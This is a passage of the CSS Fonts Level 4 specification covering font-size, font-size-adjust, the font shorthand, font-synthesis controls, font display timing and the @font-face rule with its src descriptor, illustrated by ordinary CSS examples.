  If the parent element has a keyword font size in the absolute size keyword mapping table, `larger` may compute the font size to the next entry in the table, and `smaller` may compute the font size to the previous entry in the table. For example, if the parent element has a font size of `font-size:medium`, specifying a value of `larger` may make the font size of the child element `font-size:large`.

  Instead of using next and previous items in the previous keyword table, User agents may instead use a simple ratio to increase or decrease the font size relative to the parent element. The specific ratio is unspecified, but should be around 1.2–1.5. This ratio may vary across different elements.

  > **Note:** A sight-impaired user may request a user agent use a higher ratio than default, in order to aid readability. In addition, a user agent may choose to use different ratios when it detects paragraph text as opposed to title text.

****`<length-percentage [0,∞]>`****

: A length value specifies an absolute font size (independent of the user agent’s font table). Negative lengths are invalid.

  A percentage value specifies an absolute font size relative to the parent element’s computed `font-size`. Negative percentages are invalid.

  > **Note:** Use of percentage values or font-relative lengths such as `em`s and `rem`s leads to more robust and cascadable style sheets.

****math****

: Special  [mathematical scaling rules](https://w3c.github.io/mathml-core/#the-math-script-level-property) must be applied when determining the computed value of the `font-size` property.

> **Example:** The following style sheet demonstrates various ways of specifying the font size.
>
> ```
> p { font-size: 12pt; }
> blockquote { font-size: larger }
> em { font-size: 150% }
> em { font-size: 1.5em }
> ```

> **Note:** The used value of this property can differ from its computed value due to `font-size-adjust`. However, child elements inherit the computed `font-size` value, which is not affected by `font-size-adjust` (otherwise, the effect of `font-size-adjust` would compound).

The actual value of this property can differ from the used value due to the unavailability of certain font sizes.

> **Example:** font-size can be clamped, for responsive typography.
>
> ```
> font-size: clamp(10px, ..., 36px);
> ```

##### 2.5.1.  Absolute Size Keyword Mapping Table {#css-fonts-4:absolute-size-mapping}

The following table provides user agent guidelines for the absolute-size scaling factor and their mapping to HTML heading and absolute font-sizes. The `medium` value is used as the reference middle value. The user agent may fine-tune these values for different fonts or different types of display devices.

| CSS absolute-size values | xx-small | x-small | small | medium | large | x-large | xx-large | xxx-large |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| scaling factor | 3/5 | 3/4 | 8/9 | 1 | 6/5 | 3/2 | 2/1 | 3/1 |
| HTML headings | h6 |  | h5 | h4 | h3 | h2 | h1 |  |
| HTML `font` sizes | 1 |  | 2 | 3 | 4 | 5 | 6 | 7 |

> **Note:** In CSS1, the suggested scaling factor between adjacent indexes was 1.5, which user experience proved to be too large. In CSS2, the suggested scaling factor for computer screen between adjacent indexes was 1.2 which still created issues for the small sizes. The new scaling factor varies between each index to provide a better readability.

To preserve readability, an UA applying these guidelines should nevertheless avoid creating font sizes of less than 9 device pixels per EM unit.

#### 2.6.  Relative sizing: the `font-size-adjust` property {#css-fonts-4:font-size-adjust-prop}

| Field | Value |
| --- | --- |
| Name: | **font-size-adjust** |
| [Value:](#css-values-4:value-defs) | none \| `<number [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | a number or the keyword `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

For any given font size, the apparent size and effective legibility of text varies across fonts. For bicameral scripts such as Latin or Cyrillic that distinguish between upper and lowercase letters, the relative height of lowercase letters compared to their uppercase counterparts is a determining factor of legibility. This is commonly referred to as the **aspect value** and is equal to the x-height of a font divided by the font size.

> **Note:** For text which uses diacritics, too large an x-height will actually decrease legibility as the diacritics become cramped.

In situations where font fallback occurs, fallback fonts might not share the same aspect value as the desired font family and will thus be less readable. The `font-size-adjust` property is a way to preserve the readability of text when font fallback occurs. It does this by adjusting the font-size so that the x-height is the same regardless of the font used.

> **Example:** The style defined below defines Verdana as the desired font family, but if Verdana is not available Futura or Times will be used. One paragraph also has font-size-adjust specified.
>
> ```
> p {
>   font-family: Verdana, Futura, Times;
> }
> p.adj {
>   font-size-adjust: 0.545;
> }
>
> <p>Lorem ipsum dolor sit amet, ...</p>
> <p class="adj">Lorem ipsum dolor sit amet, ...</p>
> ```
>
> Verdana has a relatively high aspect value of 0.545, meaning lowercase letters are relatively tall compared to uppercase letters, so at small sizes text appears legible. Times has a lower aspect value of 0.447, and so if fallback occurs, the text will be less legible at small sizes than Verdana unless font-size-adjust is also specified.

How text rendered in each of these fonts compares is shown below, the columns show text rendered in Verdana, Futura and Times. The same font-size value is used across cells within each row and red lines are included to show the differences in x-height. In the upper half, each row is rendered in the same font-size value. The same is true for the lower half, but in this half the `font-size-adjust` property is also set to 0.545, so that the actual font size is adjusted to preserve the x-height of Verdana across each row. Note how small text remains relatively legible across each row in the lower half.


Text with and without the use of `font-size-adjust`

This property allows authors to specify an aspect value for an element that will effectively preserve the x-height of the first choice font, whether it is substituted or not. Values have the following meanings:

****none****

: Do not preserve the font’s x-height.

****`<number [0,∞]>`****

: Specifies the aspect value used in the calculation below to calculate the adjusted font size:

  ```
  c  =  ( a / a' ) s
  ```

  where:

  ```
  s  =  font-size value
  a  =  aspect value as specified by the 'font-size-adjust' property
  a' =  aspect value of actual font
  c  =  adjusted font-size to use
  ```

  Negative values are invalid.

  This value applies to any font that is selected but in typical usage it should be based on the aspect value of the first font in the font-family list. If this is specified accurately, the `(a/a')` term in the formula above is effectively 1 for the first font and no adjustment occurs. If the value is specified inaccurately, text rendered using the first font in the family list will display differently in older user agents that don’t support `font-size-adjust`.

The value of `font-size-adjust` affects the used value of `font-size` but does not affect the computed value. It affects the size of relative units that are based on font metrics such as `ex` and `ch` but does not affect the size of `em` units. Since numeric values of `line-height` refer to the computed size of `font-size`, `font-size-adjust` does not affect the used value of `line-height`.

> **Note:** In CSS, authors often specify `line-height` as a multiple of the `font-size`. Since the `font-size-adjust` property affects the used value of `font-size`, authors should take care setting the line height when `font-size-adjust` is used. Setting the line height too tightly can result in overlapping lines of text in this situation.

> **Example:** Authors can calculate the aspect value for a given font by comparing spans with the same content but different `font-size-adjust` properties. If the same font-size is used, the spans will match when the `font-size-adjust` value is accurate for the given font.
>
> Two spans with borders are used to determine the aspect value of a font. The `font-size` is the same for both spans but the `font-size-adjust` property is specified only for the right span. Starting with a value of 0.5, the aspect value can be adjusted until the borders around the two letters line up.
>
> ```
> p {
>   font-family: Futura;
>   font-size: 500px;
> }
>
> span {
>   border: solid 1px red;
> }
>
> .adjust {
>   font-size-adjust: 0.5;
> }
>
> <p><span>b</span><span class="adjust">b</span></p>
> ```
>
> 
>
> Futura with an aspect value of 0.5
>
> The box on the right is a bit bigger than the one on the left, so the aspect value of this font is something less than 0.5. Adjust the value until the boxes align.

#### 2.7.  Shorthand font property: the `font` property {#css-fonts-4:font-prop}

| Field | Value |
| --- | --- |
| Name: | **font** |
| [Value:](#css-values-4:value-defs) | [ [ `<'font-style'>` \|\| `<font-variant-css2>` \|\| `<'font-weight'>` \|\| `<font-width-css3>` ]? `<'font-size'>` [ / `<'line-height'>` ]? `<'font-family'>`# ] \| `<system-font-family-name>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |

The syntax of this property is based on a traditional typographical shorthand notation to set multiple properties related to fonts. For historical and backwards-compatibility reasons, it is *almost* a shorthand property.

The `font` property is, except as described below, a shorthand property for setting `font-style`, `font-variant`, `font-weight`, `font-width`, `font-size`, `line-height`, `font-family` at the same place in the stylesheet.

Values for the `font-variant` property can also be included but only those supported in CSS 2.1; none of the `font-variant` values added in CSS Fonts Levels 3 or 4 can be used in the `font` shorthand:

```css
<font-variant-css2>
    = normal | small-caps
```

Values for the `font-width` property can also be included but only those supported in CSS Fonts level 3, none of the `font-width` values added in this specification can be used in the `font` shorthand:

```css
<font-width-css3>
    = normal | ultra-condensed | extra-condensed | condensed |
    semi-condensed | semi-expanded | expanded | extra-expanded |
    ultra-expanded
```

Therefore we have the following classification of font-related properties and their interaction with the `font` property:

**Set Explicitly**

: These longhand properties may also be set using the `font` shorthand property:

  - `font-family`
  - `font-size`
  - `font-width`
  - `font-stretch` (css3)
  - `font-style`
  - `font-variant-caps` (css2)
  - `font-weight`
  - `line-height`

**Reset Implicitly**

: These properties are a reset-only sub-property of the `font` property and thus may not be set, but are reset to their initial values:

  - `font-feature-settings`
  - `font-kerning`
  - `font-language-override`
  - `font-optical-sizing`
  - `font-size-adjust`
  - `font-variant-alternates`
  - `font-variant-caps` (css3 and above)
  - `font-variant-east-asian`
  - `font-variant-emoji`
  - `font-variant-ligatures`
  - `font-variant-numeric`
  - `font-variant-position`
  - `font-variation-settings`

**Cascaded Independently**

: These (despite the property name starting with "font-") are not longhand properties of the `font` and thus are neither set nor reset by the `font` property:

  - `font-palette`
  - `font-synthesis-weight`
  - `font-synthesis-style`
  - `font-synthesis-small-caps`
  - `font-synthesis-position`

All subproperties of the `font` property in the Set Explicitly and Reset Implicitly groups are first reset to their initial values.

Then, those properties the Set Explicitly group that are given explicit values in the `font` shorthand are set to those values. For a definition of allowed and initial values, see the individual longhand property definitions.

> **Example:** ```
> p { font: 12pt/14pt sans-serif }
> p { font: 80% sans-serif }
> p { font: x-large/110% "new century schoolbook", serif }
> p { font: bold italic large Palatino, serif }
> p { font: normal small-caps 120%/120% fantasy }
> p { font: condensed oblique 12pt "Helvetica Neue", serif; }
> p { font: condensed oblique 25deg 753 12pt "Helvetica Neue", serif; }
> ```
>
> In the second rule, the font size percentage value ("80%") refers to the computed `font-size` of the parent element. In the third rule, the line height percentage ("110%") refers to the font size of the element itself.
>
> The first three rules do not specify the `font-variant` and `font-weight` explicitly, so these properties receive their initial values (`normal`). Notice that the font family name `"new century schoolbook"`, which contains spaces, is enclosed in quotes. The fourth rule sets the `font-weight` to `bold`, the `font-style` to `italic`, and implicitly sets `font-variant` to `normal`.
>
> The fifth rule sets the `font-variant` (`small-caps`), the `font-size` (120% of the parent’s font size), the `line-height` (120% of the font size) and the `font-family` (`fantasy`). It follows that the keyword `normal` applies to the two remaining properties: `font-style` and `font-weight`.
>
> The sixth rule sets the `font-style`, `font-width`, `font-size`, and `font-family`, the other font properties being set to their initial values.
>
> The seventh rule sets `font-style` to `oblique 25deg`, `font-weight` to `753`, and `font-width` to `condensed`. Note that the `25deg` in this rule must be immediately following the "oblique" keyword.

Since the `font-width` property was not defined in CSS 2.1, when using `font-width` values within `font` rules, authors should include a extra version compatible with older user agents:

```
p {
  font: 80% sans-serif;   /* for older user agents */
  font: condensed 80% sans-serif;
}
```

System fonts can only be set as a whole; that is, the font family, size, weight, style, etc. are all set at the same time. These values can then be altered individually if desired. If no font with the indicated characteristics exists on a given platform, the user agent should either intelligently substitute (e.g., a smaller version of the `caption` font might be used for the `small-caption` font), or substitute a user agent default font. As for regular fonts, if, for a system font, any of the individual properties are not part of the operating system’s available user preferences, those properties should be set to their initial values.

That is why this property is "almost" a shorthand property: system fonts can only be specified with this property, not with `font-family` itself, so `font` allows authors to do more than the sum of its subproperties. However, the individual properties such as `font-weight` are still given values taken from the system font, which can be independently varied.

Note that the keywords used for the system fonts listed above are only treated as keywords when they occur in the initial position, in other positions the same string is treated as part of the font family name:

```
font: menu;        /* use the font settings for system menus */
font: large menu;  /* use a font family named "menu" */
```

> **Example:** ```
> button { font: 300 italic 1.3em/1.7em "FB Armada", sans-serif }
> button p { font: menu }
> button p em { font-weight: bolder }
> ```
>
> If the font used for dropdown menus on a particular system happened to be, for example, 9-point Charcoal, with a weight of 600, then P elements that were descendants of BUTTON would be displayed as if this rule were in effect:
>
> ```
> button p { font: 600 9pt Charcoal }
> ```
>
> Because the `font` shorthand resets to its initial value any property not explicitly given a value, this has the same effect as this declaration:
>
> ```
> button p {
>   font-style: normal;
>   font-variant: normal;
>   font-weight: 600;
>   font-size: 9pt;
>   line-height: normal;
>   font-family: Charcoal
> }
> ```

#### 2.8.  Controlling synthetic faces {#css-fonts-4:font-synthesis-intro}

Synthetic font faces are a fallback strategy to provide an approximation to the requested font when a font family lacks a suitable face.

> **Example:** For example, a user agent might:
>
> - synthesize a bold face by drawing a thin stroke around each glyph
> - synthesize small-caps, superscripts, or subscripts by rendering regular glyphs at a smaller size and positioning them appropriately
> - synthesize an oblique face by geometrical shearing of each glyph

Synthesis is a fallback strategy because the end result, while perhaps better than nothing at all, does not meet the level of quality of a face designed for the purpose.

Variable fonts, where the font designer has provided one or more axes of variation do *not* count as font synthesis and their use is not affected by the `font-synthesis` property.

##### 2.8.1.  Controlling synthesized bold: The `font-synthesis-weight` property {#css-fonts-4:font-synthesis-weight}

| Field | Value |
| --- | --- |
| Name: | **font-synthesis-weight** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property controls whether user agents are allowed to synthesize bold font faces when a font family lacks bold faces.

****auto****

: Synthesis of bold faces is allowed

****none****

: Synthesis of bold faces is not allowed

##### 2.8.2.  Controlling synthesized oblique: The `font-synthesis-style` property {#css-fonts-4:font-synthesis-style}

| Field | Value |
| --- | --- |
| Name: | **font-synthesis-style** |
| [Value:](#css-values-4:value-defs) | auto \| none \| oblique-only |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property controls whether user agents are allowed to synthesize oblique font faces when a font family lacks oblique faces.

****auto****

: Synthesis of oblique faces is allowed

****none****

: Synthesis of oblique faces is not allowed

****oblique-only****

: Synthesis of oblique faces is allowed, but they must not be used as fallback if italic is specified

In vertical text, for positive oblique angles, the glyph is skewed such that the line-over edge shifts towards the line-right side while the line-under edge shifts towards the line-left side. For negative oblique angles, the glyph is skewed such that the line-over edge shifts towards the line-left side while the line-under edge shifts towards the line-right side. Skewing is about the center of the glyph.


Synthetic oblique in vertical text, positive oblique angle

##### 2.8.3.  Controlling synthesized small caps: The `font-synthesis-small-caps` property {#css-fonts-4:font-synthesis-small-caps}

| Field | Value |
| --- | --- |
| Name: | **font-synthesis-small-caps** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property controls whether user agents are allowed to synthesize small caps font faces when a font family lacks small caps faces.

****auto****

: Synthesis of small caps faces is allowed

****none****

: Synthesis of small caps faces is not allowed

##### 2.8.4.  Controlling synthesized super- and subscripts: The `font-synthesis-position` property {#css-fonts-4:font-synthesis-position}

| Field | Value |
| --- | --- |
| Name: | **font-synthesis-position** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property controls whether user agents are required to synthesize superscript and subscript glyphs for `font-variant-position` when a font lacks them.

****auto****

: Synthesis of superscript and subscript forms is required

****none****

: Synthesis of superscript and subscript forms is not allowed

##### 2.8.5.  Controlling synthetic faces: the `font-synthesis` shorthand {#css-fonts-4:font-synthesis}

| Field | Value |
| --- | --- |
| Name: | **font-synthesis** |
| [Value:](#css-values-4:value-defs) | none \| [ weight \|\| style \|\| small-caps \|\| position] |
| [Initial:](#css-cascade-6:initial-values) | weight style small-caps position |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property is a shorthand for the `font-synthesis-weight`, `font-synthesis-style`, `font-synthesis-small-caps`, and `font-synthesis-position` properties. Values are mapped as following:

| `font-synthesis` value | `font-synthesis-weight` value | `font-synthesis-style` value | `font-synthesis-small-caps` value | `font-synthesis-position` value |
| --- | --- | --- | --- | --- |
| none | none | none | none | none |
| weight | auto | none | none | none |
| style | none | auto | none | none |
| small-caps | none | none | auto | none |
| position | none | none | none | auto |
| weight style | auto | auto | none | none |
| weight small-caps | auto | none | auto | none |
| weight position | auto | none | none | auto |
| style small-caps | none | auto | auto | none |
| style position | none | auto | none | auto |
| small-caps position | none | none | auto | auto |
| weight style small-caps | auto | auto | auto | none |
| weight style position | auto | auto | none | auto |
| weight small-caps position | auto | none | auto | auto |
| style small-caps position | none | auto | auto | auto |
| weight style small-caps position | auto | auto | auto | auto |

> **Example:** The style rule below disables the use of synthetically obliqued Arabic:
>
> ```
> *:lang(ar) { font-synthesis: none; }
> ```

### 3.  Font Rendering Controls {#css-fonts-4:font-rendering-controls}

#### 3.1.  Introduction to Font Rendering Controls {#css-fonts-4:font-rendering-controls-introduction}

When using downloadable Web Fonts via `@font-face`, the user agent needs to know what to do while the font is actively loading. Most web browsers have adopted some form of timeout:

| Browser | Timeout | Fallback | Swap |
| --- | --- | --- | --- |
| Chrome 35+ | 3 seconds | yes | yes |
| Opera | 3 seconds | yes | yes |
| Firefox | 3 seconds | yes | yes |
| Internet Explorer | 0 seconds | yes | yes |
| Safari | 3 seconds | yes | yes |

- Chrome and Firefox have a 3 second timeout after which the text is shown with the fallback font. Eventually, a swap occurs: the text is re-rendered with the intended font once it becomes available.
- Internet Explorer has a 0 second timeout which results in immediate text rendering: if the requested font is not yet available, fallback is used, and text is rerendered later once the requested font becomes available.

While these default behaviors are reasonable, they’re unfortunately inconsistent across browsers. Worse, no single approach is sufficient to cover the range of use-cases required by modern user-experience– and performance–conscious applications.

The Font Loading API [CSS-FONT-LOADING-3] allows a developer to override some of the above behaviors, but that requires scripting, a non-trivial amount of effort, and ultimately doesn’t provide sufficient hooks to cover *all* reasonable cases. Additionally, the developer needs to either inline the loading script into their page or load an external library, introducing additional network latency before the fonts can be loaded and delaying text rendering.

Design/performance-conscious web developers have a good sense for the relative importance of a given Web Font for the intended user experience. This specification provides them the ability to control font timeout and rendering behavior. Specifically, it lets developers:

- Define the font display policy when text is ready to be painted: block, or paint with fallback.
- Define the font display policy once the desired font is available: rerender text with the new font, or leave it with the fallback.
- Define custom timeout values for each font.
- Define custom display and timeout policies per element.

#### 3.2.  The Font Display Timeline {#css-fonts-4:font-display-timeline}

At the moment the user agent first attempts to use a given downloaded font face on a page, the font face’s **font download timer** is started. This timer advances through three periods of time associated with the font face—​the block period, the swap period, and the failure period—​which dictate the rendering behavior of any elements using the font face:

- The first period is the **font block period**. During this period, if the font face is not loaded, any element attempting to use it must instead render with an invisible fallback font face. If the font face successfully loads during the block period, the font face is then used normally.
- The second period, occurring immediately after the block period, is the **font swap period**. During this period, if the font face is not loaded, any element attempting to use it must instead render with a fallback font face. If the font face successfully loads during the swap period, the font face is then used normally.
- The third period, occurring immediately after the swap period, is the **font failure period**. If the font face is not yet loaded when this period starts, it’s marked as a failed load, causing normal font fallback. Otherwise, the font face is used normally.

To **render with a fallback font face** for a given element, the user agent must find the first font face specified in the element’s `font-family` list which is already loaded, and use that for rendering text. Doing this must not trigger loads of any of the fallback fonts.

To **render with an invisible fallback font face** for a given element, find a font face as per "render with a fallback font face". Create an anonymous font face with the same metrics as the selected font face but with all glyphs "invisible" (containing no "ink"), and use that for rendering text. Doing this must not trigger loads of any of the fallback fonts.

> **Issue:** `fallback` and `optional` can result in some faces in a family being used while others are required to fallback, giving a "ransom note" look. Perhaps require that all fonts in a family have the same behavior (all swapped in, or all fallback)? See also the @font-feature-values for controlling the behavior on a font family basis.

### 4.  Font Resources {#css-fonts-4:font-resources}

#### 4.1.  The **`@font-face`** rule {#css-fonts-4:font-face-rule}

The `@font-face` rule allows for linking to fonts that are automatically fetched and activated when needed. This allows authors to select a font that closely matches the design goals for a given page rather than limiting the font choice to a set of fonts available on a given platform. A set of font descriptors define the location of a font resource, either locally or externally, along with the style characteristics of an individual face. Multiple `@font-face` rules can be used to construct font families with a variety of faces. Using CSS font matching rules, a user agent can selectively download only those faces that are needed for a given piece of text.

Its syntax is:

```css
@font-face {
  <declaration-list>
}
```

The `@font-face` rule accepts the descriptors defined in this specification.

Each `@font-face`rule specifies a value for every font descriptor, either implicitly or explicitly. Those not given explicit values in the rule take the initial value listed with each descriptor in this specification. These descriptors apply solely within the context of the `@font-face` rule in which they are defined, and do not apply to document language elements. There is no notion of which elements the descriptors apply to or whether the values are inherited by child elements. When a given descriptor occurs multiple times in a given `@font-face` rule, only the last descriptor declaration is used and all prior declarations for that descriptor are ignored.

> **Example:** To use a downloadable font called Gentium:
>
> ```
> @font-face {
> font-family: Gentium;
> src: url(http://example.com/fonts/Gentium.woff);
> }
>
> p { font-family: Gentium, serif; }
> ```
>
> The user agent will download Gentium and use it when rendering text within paragraph elements. If for some reason the site serving the font is unavailable, the default serif font will be used.

A given set of `@font-face` rules define a set of fonts available for use within the documents that contain these rules. When font matching is done, fonts defined using these rules are considered before other available fonts on a system.

Downloaded fonts are only available to documents that reference them. The process of activating these fonts must not make them available to other applications or to documents that don’t directly link to the same font. User agent implementers might consider it convenient to use downloaded fonts when rendering characters in other documents for which no other available font exists as part of the *installed font fallback* procedure. However, this would cause a security leak since the contents of one page would be able to affect other pages, something an attacker could use as an attack vector. These restrictions do not affect caching behavior, fonts are cached the same way other web resources are cached.

This at-rule follows the forward-compatible parsing rules of CSS. Like properties in a declaration block, declarations of any descriptors that are not supported by the user agent must be ignored. `@font-face` rules require a `font-family` and `src` descriptor; if either of these are missing, the `@font-face` rule must not be considered when performing the [font matching algorithm](#css-fonts-4:font-matching-algorithm).

In cases where user agents have limited platform resources or implement the ability to disable downloadable font resources, `@font-face` rules must simply be ignored; the behavior of individual descriptors as defined in this specification should not be altered.

#### 4.2. Font family: the `font-family` descriptor {#css-fonts-4:font-family-desc}

| Field | Value |
| --- | --- |
| Name: | **font-family** |
| For: | `@font-face` |
| Value: | `<font-family-name>` |
| Initial: | N/A |

This descriptor defines the font family name that will be used in all CSS font family name matching. It overrides the font family names contained in the underlying font data. If the font family name is the same as a font family available in a given user’s environment, it effectively hides the underlying font for documents that use the stylesheet. This permits a web author to freely choose font-family names without worrying about conflicts with font family names present in a given user’s environment. Likewise, platform substitutions for a given font family name must not be used.

#### 4.3. Font reference: the `src` descriptor {#css-fonts-4:src-desc}

| Field | Value |
| --- | --- |
| Name: | **src** |
| For: | `@font-face` |
| Value: | `<font-src-list>` |
| Initial: | N/A |

This descriptor specifies the resource containing font data. Its value is a prioritized, comma-separated list of external references or locally-installed font face names. When a font is needed the user agent iterates over the set of references listed, using the first one it can successfully parse and activate. Parsing this descriptor is more complicated than parsing other descriptors; see [§ 4.3.1 Parsing the src descriptor](#css-fonts-4:font-face-src-parsing) for the parsing rules. Activation of a font involves downloading the file or reading it from disk, parsing it, and perhaps additional user-agent-dependent steps. Fonts containing invalid data or local font faces that are not found are ignored and the user agent loads the next font in the list.

##### 4.3.1. Parsing the `src` descriptor {#css-fonts-4:font-face-src-parsing}

To parse a **`<font-src-list>`** production, parse a list of `<font-src>`s.

```css
<font-src> = <url> [ format( <font-format> ) ]? [ tech( <font-tech># ) ]?
  | local( <font-family-name> )
```

```css
<font-format>
    = [ <string> | collection | embedded-opentype | opentype
      | svg | truetype | woff | woff2 ]
```

```css
<font-tech>
    = [ <font-features-tech> | <color-font-tech>
      | variations | palettes | incremental ]
```

```css
<font-features-tech>
    = [ features-opentype | features-aat | features-graphite ]
```

```css
<color-font-tech>
    = [ color-COLRv0 | color-COLRv1 | color-SVG | color-sbix | color-CBDT ]
```

While keywords are preferred to identify font formats, for reasons of backwards compatibility the following strings are also accepted, and have the same effect as if the equivalent modern syntax had been used.

| String form | Equivalent syntax |
| --- | --- |
| format("woff2") | format(woff2) |
| format("woff") | format(woff) |
| format("truetype") | format(truetype) |
| format("opentype") | format(opentype) |
| format("collection") | format(collection) |
| format("woff2-variations") | format(woff2) tech(variations) |
| format("woff-variations") | format(woff) tech(variations) |
| format("truetype-variations") | format(truetype) tech(variations) |
| format("opentype-variations") | format(opentype) tech(variations) |

> **Note:** The CSS WG does not anticipate extending this list of format strings in the future.

If a component value is parsed correctly and is of a [font format](#css-fonts-4:font-format-definitions) or [font tech](#css-fonts-4:font-tech-definitions) that the UA supports, add it to the list of supported sources. If parsing a component value results in a parsing error or its format or tech are unsupported, do not add it to the list of supported sources.

If there are no supported entries at the end of this process, the value for the `src` descriptor is a parse error.

These parsing rules allow for graceful fallback of fonts for user agents which don’t support a particular font tech or font format.

> **Example:** For example, when incremental transfer is not supported, a woff2 compressed version of the font is supplied, for optimal performance. Then, for [incremental transfer](https://w3c.github.io/IFT/Overview.html), the raw uncompressed OpenType font is provided, portions of which will be loaded on demand.
>
> ```
> @font-face {
>   font-family: "MyIncrementallyLoadedWebFont";
>   src: url("FallbackURLForBrowsersWhichDontSupportIncrementalLoading.woff2") format("woff2");
>   src: url("MyIncrementallyLoadedWebFont.otf") format(opentype)  tech(incremental);
> }
> ```

##### 4.3.2. Loading an individual item in the `src` descriptor {#css-fonts-4:font-face-src-loading}

As with other URLs in CSS, the URL can be relative, in which case it is resolved relative to the location of the style sheet containing the `@font-face` rule. In the case of SVG fonts, the URL points to an element within a document containing SVG font definitions. If the element reference is omitted, a reference to the first defined font is implied. Similarly, font container formats that can contain more than one font must load one and only one of the fonts for a given `@font-face` rule. Fragment identifiers are used to indicate which font to load; these use the PostScript name of the font as defined in [RFC8081].

Conformant user agents must not use a face from the resource unless its PostScript name exactly matches the fragment identifier, and must skip downloading the resource if the given fragment identifier cannot be a valid PostScript name.

> **Example:** ```
> src: url(fonts/simple.woff);       /* load simple.woff relative to stylesheet location */
> src: url(/fonts/simple.woff);      /* load simple.woff from absolute location */
> src: url(fonts/coll.otc#foo);      /* load font foo from collection coll.otc
> src: url(fonts/coll.woff2#foo);    /* load font foo from woff2 collection coll.woff2
> src: url(fonts.svg#simple);        /* load SVG font with id 'simple' */
> ```

##### 4.3.3. Selecting items in the `src` {#css-fonts-4:font-face-src-formats}

External references consist of a URL, followed by an optional hint describing the format of the font resource referenced by that URL. Conformant user agents must skip downloading a font resource if the format hint indicates an unsupported or unknown font format, or if any of the font technologies are unsupported by the user agent. If no format hint is supplied, the user agent should download the font resource.

> **Example:** For example, the following shows how to load a WOFF 2 font if possible, otherwise a WOFF 1, otherwise use an OpenType font
>
> ```
> @font-face {
>   font-family: bodytext;
>   src: url(ideal-sans-serif.woff2) format("woff2"),
>     url(ideal-sans-serif.woff) format("woff"),
>     url(basic-sans-serif.ttf) format("opentype");
> }
> ```

> **Example:** In this example, if woff2 is not supported, an unsupported and fictitious "zebra" format is skipped and the opentype font is downloaded:
>
> ```
> src: url(ideal.woff2) format("woff2"),
>     url(unsupported.zeb) format("zebra"),
>     url(basic.ttf) format("opentype");
> ```

> **Example:** Here an individual instance in a collection is loaded, or if collections are not supported, download an individual font instead.
>
> ```
> @font-face {
>   font-family: 源ノ角ゴシック Code JP;
>   src: url(SourceHanCodeJP.otc#Regular) format("collection"),
>     url(SourceHanCodeJP-Regular.ttf) format("opentype");
> }
> ```

###### 4.3.3.1. Local font fallback {#css-fonts-4:local-font-fallback}

When authors would prefer to use a locally available copy of a given font and download it if it’s not, `local()` can be used. The locally-installed `<font-family-name>` argument to `local()` is a format-specific string that uniquely identifies a single font face within a larger family. The name can optionally be enclosed in quotes. If unquoted, the [unquoted font family name processing conventions](#css-fonts-4:font-family-name-syntax) apply; in other words, the name must be a sequence of identifiers separated by [whitespace](#css-syntax-3:whitespace) which is converted to a string by joining the identifiers together separated by a single space; and thus, CSS-wide keywords such as `inherit`, and `<generic-font-family>` keywords such as `serif` are not allowed inside `local()`.

```css
/* regular face of Gentium */
@font-face {
  font-family: MyGentium;
  src: local(Gentium),    /* prefer locally available Gentium */
    url(Gentium.woff);  /* otherwise, download it */
}
```

> **Example:** For example, this use of `local()` would be an error:
>
> ```css
> @font-face {
>   font-family: foo;
>   src: local(inherit);
> }
> ```

For OpenType and TrueType fonts, this string is used to match only the Postscript name or the full font name in the name table of locally available fonts. Which type of name is used varies by platform and font, so authors should include both of these names to assure proper matching across platforms. Platform substitutions for a given font name must not be used.

```
/* bold face of Gentium */
@font-face {
  font-family: MyGentium;
  src: local(Gentium Bold),    /* full font name */
    local(Gentium-Bold),    /* Postscript name */
    url(GentiumBold.woff);  /* otherwise, download it */
  font-weight: bold;
}
```

